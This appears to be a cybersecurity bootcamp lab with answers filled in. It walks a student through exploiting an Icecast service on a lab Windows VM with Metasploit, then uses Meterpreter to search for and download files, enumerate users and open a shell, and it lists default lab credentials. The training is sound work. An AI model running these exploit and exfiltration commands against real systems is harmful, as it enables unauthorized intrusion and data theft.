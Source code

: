 ## Activity: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20

      ![nmap](images/nmap.jpg)

       
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: **_searchsploit icecast_**

     ![searchicecast](images/searchsploit.jpg)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: **_msfconsole_**
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: **_use exploit/windows/http/icecast_header_**

     ![useicecast](images/useicecast.jpg)
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: **_use 0_**
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: **_set RHOSTS 192.168.0.20_**
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: **_exploit_**

     - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: **_search -f *secretfile*.txt_**

     ![question6](images/question6.jpg)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: **_search -f *recipe*.txt_**
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: **_download /users/ieuser/documents/Drinks.recipe.txt_**

      ![#7](images/#7.jpg)
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

**_run post/multi/recon/local_exploit_suggester_**

![#8](images/#8.jpg)
 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: **_run post/windows/gather/enum_logged_on_users_**

  ![A](images/A.jpg)
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: **_shell_**

  ![B](images/B.jpg)
 
C. Run the command that displays the target's computer system information:

   > Answer: **_systeminfo_**

   ![C](images/C.jpg)



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.

